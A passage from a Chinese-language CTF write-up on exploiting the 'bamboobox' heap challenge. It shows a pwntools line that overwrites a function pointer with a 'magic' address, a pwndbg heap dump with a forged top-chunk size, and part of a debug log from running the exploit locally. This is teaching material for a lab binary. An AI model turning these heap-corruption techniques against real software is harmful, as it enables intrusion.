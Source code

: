 此时已经可以控制goodbye_message的地址，覆盖后退出程序就可以触发magic函数。

```python
create(0x10,p64(magic)*2)
```

```python
pwndbg> x/30gx 0xe80000
0xe80000:	0x0000000000000000	0x0000000000000021 #现在已经被控制的chunk
0xe80010:	0x0000000000400d49	0x0000000000400d49
    		#hello_message      #magic
0xe80020:	0x0000000000000000	0x0000000000000039 #chunk0（malloc(0x30)）
0xe80030:	0x6161616161616161	0x6161616161616161
0xe80040:	0x6161616161616161	0x6161616161616161
0xe80050:	0x6161616161616161	0x6161616161616161
0xe80060:	0x3131313131313131	0xffffffffffffffa1 #top_chunk
0xe80070:	0x0000000000000000	0x0000000000000000
......（省略内容均为空）
0xe800e0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

## debug-exp
> 请在同级目录下创建flag文件
>

```python
➜  ~ cd Desktop/
➜  Desktop python yichen.py
[+] Starting local process './bamboobox' argv=['./bamboobox'] : pid 29277
[DEBUG] Received 0x11c bytes:
    'There is a box with magic\n'
    'what do you want to do in the box\n'
    '----------------------------\n'
    'Bamboobox Menu\n'
    '----------------------------\n'
    '1.show the items in the box\n'
    '2.add a new item\n'
    '3.change the item in the box\n'
    '4.remove the item in the box\n'
    '5.exit\n'
    '----------------------------\n'
    'Your choice:'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x25 bytes:
    'Please enter the length of item name:'
[DEBUG] Sent 0x3 bytes:
    '48\n'
[DEBUG] Received 0x1e bytes:
    'Please enter the name of item:'
[DEBUG] Sent 0x5 bytes:
    'aaaa\n'
[DEBUG] Received 0xe0 bytes:
    '----------------------------\n'
    'Bamboobox Menu\n'
    '----------------------------\n'
    '1.show the items in the box\n'
    '2.add a new item\n'
    '3.change the item in the box\n'
    '4.remove the item in the box\n'
    '5.exit\n'
    '----------------------------\n'
    'Your choice:'
[DEBUG] Sent 0x2 bytes:
```